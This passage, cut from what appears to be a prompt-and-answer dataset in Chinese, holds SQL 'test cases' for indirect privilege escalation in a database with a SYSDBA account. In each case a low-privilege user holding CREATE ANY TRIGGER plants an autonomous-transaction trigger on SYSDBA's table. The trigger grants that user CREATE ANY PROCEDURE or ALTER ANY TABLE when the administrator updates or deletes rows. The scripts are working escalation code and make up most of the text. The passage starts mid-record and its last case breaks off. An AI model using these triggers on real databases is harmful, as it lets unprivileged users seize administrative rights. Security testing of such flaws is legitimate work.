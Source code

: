 --SYSDBA用户
--插入数据，以触发触发器
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');

--USER1用户
--查询授权结果
SELECT * FROM USER_TAB_PRIVS;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在更新sysdba用户表时，授权未有的权限。sysdba用户更新数据触发触发器，执行授权命令,"‘--SYSDBA用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));
--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--插入数据
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');
INSERT INTO SYSDBA.T1 VALUES(2, 'SYSDBA');

--USER1
--创建表
CREATE TABLE T2(ID INT, NAME VARCHAR(20));

--创建触发器
CREATE OR REPLACE TRIGGER UPDATE_CREATE_ANY_PROCEDURE
BEFORE UPDATE ON SYSDBA.T1
FOR EACH ROW
DECLARE PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN 
 EXECUTE IMMEDIATE 'GRANT CREATE ANY PROCEDURE TO USER1';
END;

--SYSDBA用户
--更新表，以触发触发器
UPDATE SYSDBA.T1 SET NAME = 'SYSDBA1' WHERE ID = 1;

--USER1用户
--查询授权结果
SELECT * FROM USER_SYS_PRIVS;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在删除sysdba用户表时，授权未有的权限。sysdba用户删除数据触发触发器，执行授权命令,"--SYSDB用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));
--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--插入数据
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');

--USER1
--创建触发器
CREATE OR REPLACE TRIGGER DELETE_ALTER_ANY_TABLE
BEFORE DELETE ON SYSDBA.T1
FOR EACH ROW
DECLARE PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN 
 EXECUTE IMMEDIATE 'GRANT ALTER ANY TABLE TO USER1';
END;
